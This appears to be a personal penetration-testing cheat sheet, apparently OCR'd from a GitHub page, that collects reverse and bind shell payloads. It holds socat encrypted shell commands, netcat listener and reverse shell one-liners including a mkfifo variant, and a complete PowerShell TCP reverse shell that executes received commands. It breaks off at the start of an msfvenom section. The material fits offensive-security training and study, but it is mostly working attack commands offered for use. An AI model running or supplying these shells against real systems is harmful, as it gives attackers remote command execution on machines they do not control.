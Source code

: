 Target:

socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

Attacker:

socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

----------

her are some payloads related to netcat and all 

-e option is used to execute a process on connection 

in case of windows use nc static binary 

For example, as a listener:

nc -lvnp <PORT> -e /bin/bash

	for a reverse shell, connecting back with nc <LOCAL-IP> <PORT> -e /bin/bash would result in a reverse shell on the target.

use this if -e option is not available on nc on your or target system 

mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:


resource: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


--------

Msfvenom: 
---------

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. 

it can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py

The standard syntax for msfvenom is as follows:
